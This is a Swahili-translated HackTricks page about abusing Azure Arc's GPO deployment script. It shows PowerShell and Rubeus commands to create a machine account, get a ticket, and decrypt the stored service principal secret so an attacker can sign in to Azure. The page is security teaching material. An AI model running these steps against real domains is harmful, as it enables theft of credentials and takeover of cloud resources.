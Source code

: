 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc inaruhusu kuunganishwa kwa seva mpya za ndani (seva zilizounganishwa kwenye kikoa) ndani ya Azure Arc kwa kutumia njia ya Group Policy Object. Ili kuwezesha hili, Microsoft inatoa zana za kutekeleza zinazohitajika kwa ajili ya kuanzisha mchakato wa kuingiza. Ndani ya faili ya ArcEnableServerGroupPolicy.zip, skripti zifuatazo zinaweza kupatikana: DeployGPO.ps1, EnableAzureArc.ps1, na AzureArcDeployment.psm1.

Wakati inatekelezwa, skripti ya DeployGPO.ps1 inafanya hatua zifuatazo:

1. Inaunda Azure Arc Servers Onboarding GPO ndani ya kikoa cha ndani.
2. Inakopya skripti ya kuingiza ya EnableAzureArc.ps1 kwenye sehemu ya mtandao iliyotengwa iliyoundwa kwa ajili ya mchakato wa kuingiza, ambayo pia ina pakiti ya installer ya Windows.

Wakati wa kuendesha skripti hii, wasimamizi wa mfumo wanahitaji kutoa vigezo viwili vikuu: **ServicePrincipalId** na **ServicePrincipalClientSecret**. Aidha, inahitaji vigezo vingine kama vile kikoa, FQDN ya seva inayohifadhi sehemu hiyo, na jina la sehemu hiyo. Maelezo zaidi kama vile kitambulisho cha mpangilio, kundi la rasilimali, na taarifa nyingine muhimu lazima pia zipewe kwa skripti.

Siri iliyosimbwa inaundwa katika saraka ya AzureArcDeploy kwenye sehemu iliyotajwa kwa kutumia usimbaji wa DPAPI-NG. Siri iliyosimbwa inahifadhiwa katika faili inayoitwa encryptedServicePrincipalSecret. Ushahidi wa hili unaweza kupatikana katika skripti ya DeployGPO.ps1, ambapo usimbaji unafanywa kwa kuita ProtectBase64 na $descriptor na $ServicePrincipalSecret kama ingizo. Maelezo ya descriptor yanajumuisha SID za Kundi la Kompyuta za Kikoa na Kiongozi wa Kikoa, kuhakikisha kwamba ServicePrincipalSecret inaweza kusimbwa tu na Kiongozi wa Kikoa na vikundi vya usalama vya Kompyuta za Kikoa, kama ilivyotajwa katika maoni ya skripti.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tuna masharti yafuatayo:

1. Tumefanikiwa kuingia kwenye mtandao wa ndani.
2. Tuna uwezo wa kuunda au kudhibiti akaunti ya kompyuta ndani ya Active Directory.
3. Tumegundua sehemu ya mtandao inayoshikilia saraka ya AzureArcDeploy.

Kuna njia kadhaa za kupata akaunti ya mashine ndani ya mazingira ya AD. Moja ya njia maarufu ni kutumia quota ya akaunti ya mashine. Njia nyingine inahusisha kuathiri akaunti ya mashine kupitia ACLs zenye udhaifu au mipangilio mingine mbalimbali isiyo sahihi.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Mara tu akaunti ya mashine imepatikana, inawezekana kuthibitisha kwa kutumia akaunti hii. Tunaweza ama kutumia amri ya runas.exe na bendera ya netonly au kutumia pass-the-ticket na Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Kwa kuwa na TGT ya akaunti yetu ya kompyuta iliyohifadhiwa kwenye kumbukumbu, tunaweza kutumia skripti ifuatayo kufungua siri ya huduma ya msingi.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Mbadala, tunaweza kutumia [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Katika hatua hii, tunaweza kukusanya taarifa zilizobaki zinazohitajika kuungana na Azure kutoka kwa faili ya ArcInfo.json, ambayo imehifadhiwa kwenye sehemu ile ile ya mtandao kama faili ya encryptedServicePrincipalSecret. Faili hii ina maelezo kama: TenantId, servicePrincipalClientId, ResourceGroup, na mengineyo. Kwa kutumia taarifa hizi, tunaweza kutumia Azure CLI kuthibitisha kama service principal iliyoshambuliwa.

## Marejeleo

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
